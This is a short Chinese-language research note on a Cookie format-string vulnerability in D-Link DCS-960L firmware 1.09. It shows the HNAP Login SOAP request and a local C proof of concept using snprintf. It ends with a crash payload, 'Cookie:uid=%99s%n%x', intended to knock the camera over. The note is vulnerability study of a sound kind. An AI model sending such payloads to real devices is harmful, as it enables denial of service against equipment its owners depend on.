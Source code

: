 ```
https://wzt.ac.cn/2021/01/17/DCS-960L/
```

还是DCS-960L-1.09版本的Login

> DCS-960L 在处理请求中的 Cookie 字段时，错误的将用户提交的数据作为格式化字符串使用，攻击者可以构造特殊格式的 Cookie 触发此漏洞，严重可导致任意代码执行。



用户提交的表单的格式：

```xml-dtd
SOAPAction: http://192.168.0.1/HNAP1/Login
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://192.168.0.1/HNAP1/">
      <Action></Action>
      <Username>Username</Username>
      <LoginPassword/>
      <Captcha/>
    </Login>
  </soap:Body>
</soap:Envelope>
```



按作者的意思，是这里存在一个格式化字符串漏洞：

![image-20240920165105157](./D-Link DCS-960L Cookie 格式化字符串 ZDI-CAN-11360/images/image-20240920165105157.png)



emmm，不清楚，写写代码看看。

PoC：

```c
#include<stdio.h>
#include<string.h>
#include<malloc.h>

int main(){
	char *cookie = "N0zoM1z0";
	char *mem = (char*)malloc(0x10);
	snprintf((char*)mem,0xBu,cookie);
	printf("[+] First: %s\n",mem);
	
	char* cookie2 = "%p-%p-%p";
	char *mem2 = (char*)malloc(0x10);
	snprintf((char*)mem2,0xBu,cookie2);
	printf("[+] Second: %s\n",mem2);
	return 0;
}

```

![image-20240920165537702](./D-Link DCS-960L Cookie 格式化字符串 ZDI-CAN-11360/images/image-20240920165537702.png)



可以看到第二次确实存在格式化字符串漏洞。



那怎么利用呢？这种只能写0xB长度，利用点不大。

但是，可以DoS。。笑死。。。

触发崩溃的话，就用`%s`来访问非法内存即可。再加几项瞎搞。

```
Cookie:uid=%99s%n%x
```

![image-20240920170107784](./D-Link DCS-960L Cookie 格式化字符串 ZDI-CAN-11360/images/image-20240920170107784.png)